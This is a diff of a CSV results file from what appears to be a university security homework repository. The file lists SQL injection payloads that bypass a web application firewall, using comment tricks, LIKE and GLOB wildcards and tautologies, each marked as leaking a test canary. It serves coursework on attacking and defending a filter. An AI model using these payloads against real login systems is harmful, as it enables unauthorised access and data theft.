

Before and after one commit to Gabriel-Avalos28/cmp-5006E-fall26, a CSV file: homework/hw2/avalos/defend/results/waf_bypasses.csv, drawn as a sheet.

```diff
--- a/homework/hw2/avalos/defend/results/waf_bypasses.csv
+++ b/homework/hw2/avalos/defend/results/waf_bypasses.csv
@@ -1,5 +1,6 @@
-bypass_payload,technique,waf_passed,leaks_canary_real_sink,genuine_bypass
-admin' OR 'a' LIKE 'a ,"LIKE tautology: no '=' , no '--'",True,True,True
-admin' OR 'x'<>'y,"'<>' inequality is always true, evades the '=' rules",True,True,True
-admin'/**/OR/**/'a'='a,inline /**/ comment defeats the rule's \bor\b\s+ anchor,True,True,True
-admin'/**/oR/**/'1'='1,mixed case + /**/ comment: classic tautology still slips the rule,True,True,True
+payload,technique,waf_passed,leaks_canary,genuine_bypass
+admin'/* :: */ AND '1'='1,block-comment neutralization + quoted tautology,True,True,True
+admin'/* :: */ AND pw GLOB '*,block-comment + GLOB wildcard (no '='),True,True,True
+admin'/* :: */ AND 2>1 AND 'a'<'z,block-comment + inequality tautology,True,True,True
+admin'/* :: */ AND 'a'='a,block-comment + quoted equality (no OR keyword),True,True,True
+admin'/* :: */ AND pw LIKE '%,block-comment + LIKE wildcard,True,True,True
```
Also changed, not shown: homework/hw2/avalos/attack/results/attack_findings.csv, homework/hw2/avalos/defend/results/positive_fix.csv, 31 other files.
